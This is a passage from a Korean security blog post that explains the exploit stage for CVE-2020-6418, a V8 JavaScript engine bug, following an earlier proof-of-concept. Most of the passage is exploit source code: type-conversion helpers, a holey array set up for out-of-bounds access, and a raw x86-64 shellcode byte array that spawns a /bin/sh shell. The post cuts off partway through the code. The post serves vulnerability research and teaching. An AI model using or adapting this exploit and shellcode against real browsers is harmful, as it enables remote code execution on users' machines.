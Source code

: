 ```yaml
---
layout: post
read_time: true
show_date: true
title: "CVE-2020-6418-Exploit(KO)"
date: 2025-02-12
img: posts/20240925/v8_picture.png
tags: [V8, 1-day, Exploit]
category: Exploit
author: adawn0106
description: "CVE-2020-6418-Exploit(KO)"
comments: true

---
```


이번에는 저번에 설명했던 PoC에 이어서 나머지 Exploit 부분에 대해서 설명해보겠습니다. <br>
이번에도  해당 블로그를 참고하였습니다. <br>
https://cwresearchlab.co.kr/entry/CVE-2020-6418-Incorrect-side-effect-modelling-for-JSCreate

<br><br><br>

## Exploit
---

<br><br><br>

전체 소스코드는 다음과 같습니다. 

<br><br><br>

```js
/* ex.js */

let fi_buf = new ArrayBuffer(8);  // shared buffer
let f_buf = new Float64Array(fi_buf);  // buffer for float
let i_buf = new BigUint64Array(fi_buf);  // buffer for bigint

// convert float to bigint
function ftoi(f) {
    f_buf[0] = f;
    return i_buf[0];
}

// convert bigint to float
function itof(i) {
    i_buf[0] = i;
    return f_buf[0];
}

ITERATIONS = 100000;

let a = [0.1, , , , , , , , , , , , , , , 0.2, 0.3, 0.4];
let oob_arr = undefined;  // array for OOB
let obj_arr = undefined;  // array of objects
let buf = undefined;  // ArrayBuffer for shellcode

a.pop();
a.pop();
a.pop();

let shellcode = [106, 104, 72, 184, 47, 98, 105, 110, 47, 47, 47, 115, 80, 72, 137, 231, 104, 114, 105, 1, 1, 129, 52, 36, 1, 1, 1, 1, 49, 246, 86, 106, 8, 94, 72, 1, 230, 86, 72, 137, 230, 49, 210, 106, 59, 88, 15, 5];
```